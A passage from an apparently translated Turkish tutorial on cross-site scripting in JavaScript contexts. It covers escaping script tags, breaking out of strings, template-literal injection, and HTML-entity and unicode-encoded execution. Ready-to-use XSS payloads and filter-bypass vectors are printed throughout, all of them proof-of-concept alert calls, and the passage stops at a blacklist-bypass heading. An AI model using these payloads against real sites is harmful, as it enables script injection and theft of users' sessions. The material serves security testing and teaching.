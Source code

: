 Bu durumda **girdi** JS kodunun bir `.js` dosyasındaki veya `<script>...</script>` etiketleri arasındaki veya JS kodu çalıştırabilen HTML olayları arasındaki veya `javascript:` protokolünü kabul eden öznitelikler arasındaki **yansıtılacak**.

### \<script> etiketini kaçırma

Eğer kodunuz `<script> [...] var input = 'yansıtılan veri' [...] </script>` içinde yer alıyorsa, `<script>` etiketini **kolayca kapatabilirsiniz:**
```javascript
</script><img src=1 onerror=alert(document.domain)>
```
Not edin ki bu örnekte **tek tırnağı bile kapatmadık**. Bunun nedeni **HTML ayrıştırmasının önce tarayıcı tarafından gerçekleştirilmesidir**, bu da sayfa öğelerinin, script blokları da dahil olmak üzere, tanımlanmasını içerir. JavaScript'in gömülü scriptleri anlamak ve yürütmek için ayrıştırılması yalnızca sonrasında gerçekleştirilir.

### JS kodu içinde

Eğer `<>` temizleniyorsa, hala **diziyi kaçırabilir** ve **keyfi JS** çalıştırabilirsiniz. **JS sözdizimini düzeltmek** önemlidir, çünkü herhangi bir hata varsa, JS kodu yürütülmeyecektir:
```
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
```
### Template literals \`\`

**Dize** oluşturmak için tek ve çift tırnakların yanı sıra JS ayrıca **ters tırnak** **` `` `** kabul eder. Bu, `${ ... }` sözdizimini kullanarak **gömülü JS ifadeleri** sağlamasına olanak tanıdığı için şablon dizeleri olarak bilinir.\
Bu nedenle, eğer girdinizin bir JS dizesi içinde **yansıtıldığını** bulursanız ve bu dize ters tırnak kullanıyorsa, **keyfi JS kodu** çalıştırmak için `${ ... }` sözdizimini kötüye kullanabilirsiniz:

Bu, **kötüye kullanılabilir**:
```javascript
`${alert(1)}`
`${`${`${`${alert(1)}`}`}`}`
```

```````````````javascript
// This is valid JS code, because each time the function returns itself it's recalled with ``
function loop(){return loop}
loop``````````````
```````````````
### Kodun kodlanmış yürütülmesi
```markup
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script></svg>  <!-- The svg tags are neccesary
<iframe srcdoc="<SCRIPT>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</iframe>">
```
### Unicode Encode JS yürütme
```javascript
\u{61}lert(1)
\u0061lert(1)
\u{0061}lert(1)
```
### JavaScript kara liste atlatma teknikleri
